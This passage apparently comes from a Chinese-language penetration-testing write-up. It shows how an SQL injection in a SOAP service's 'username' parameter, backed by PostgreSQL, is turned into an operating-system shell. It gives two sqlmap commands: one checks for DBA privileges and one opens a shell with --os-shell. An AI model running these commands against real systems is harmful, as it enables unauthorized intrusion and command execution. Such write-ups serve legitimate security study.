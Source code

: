### GetShell

后端数据库为postgresql，所以我们可以尝试通过Sqlmap的--os-shell来获取shell权限，不过在此之前我们需要先检查当前用户的权限是否为DBA权限

```plain
sqlmap -r soap.txt -p username --dbms postgresql --is-dba
```

[![](assets/1705886707-ccdd3c38f85dbd4106d2ae7b223b4588.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120120640-50b1b192-b749-1.png)  
从上面的执行结果可以看到属于dba权限，随后我们直接通过--os-shell获取权限

```plain
sqlmap -r soap.txt -p username --dbms postgresql --os-shell --batch
```

[![](assets/1705886707-c232f61a453580b06e81d2dcfe91d370.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120120716-65df0902-b749-1.png)  
紧接着我们可以执行各类系统命令：  